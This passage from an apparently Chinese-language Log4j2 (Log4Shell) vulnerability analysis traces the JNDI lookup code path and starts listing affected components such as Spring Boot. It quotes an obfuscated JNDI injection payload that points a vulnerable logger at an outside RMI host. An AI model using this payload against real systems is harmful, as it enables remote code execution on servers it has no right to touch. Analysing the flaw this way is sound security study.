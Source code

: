 在其lookup中，通过 `:` 作为分隔符来分隔 Lookup 关键字及参数，从`strLookupMap` 中根据关键字作为 key 匹配到对应的处理类，并调用其 lookup 方法

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250306223353866.png)

所以你会在网上看到一个payload：

```java
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://domain.com/j}
```

并非如前面的`:-`赋值丢弃lower，而是把lower给解析了。此方法仅适用于2.14.0版本及以上，适用范围极其有限

回到lookup代码，由于我们传的`jndi:xxx`，所以取出前缀jndi，并取到JndiLookup查找器

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250306223721857.png)

跟进到JndiLookup.lookup，调用了JndiManager.getDefaultManager()获取jndiManager，然后调用其lookup方法。其实从变量信息已经能看出此处的jndiManager是InitialContext了

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250306223936430.png)

可以看下getDefaultManager的具体过程，调用getManager，参数里的FACTORY是JndiManagerFactory

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250306224329338.png)

然后调用factory.createManager

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250306224435955.png)

实例化InitialContext并封装在JndiManager中返回

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250306224244175.png)

至此进入InitialContext触发JNDI漏洞

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250306224515608.png)



## 影响范围

copy一份 su18大佬的漏洞影响组件

### SpringBoot

默认情况下，Spring Boot 会用 Logback 来记录日志，并用 INFO 级别输出到控制台。也就是说，虽然包含了  Log4j2 的 jar 包，但是如果没有配置调用，是不会受到危害的。

但如果将日志框架修改为 Log4j2，则会受到此漏洞的影响，例如将配置文件改为如下格式：

```xml
<dependencies>
    <dependency>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-web</artifactId>
        <exclusions>
            <exclusion>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-starter-logging</artifactId>
            </exclusion>
        </exclusions>
    </dependency>
    <dependency>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-log4j2</artifactId>
        <version>2.6.1</version>
    </dependency>
</dependencies>
```
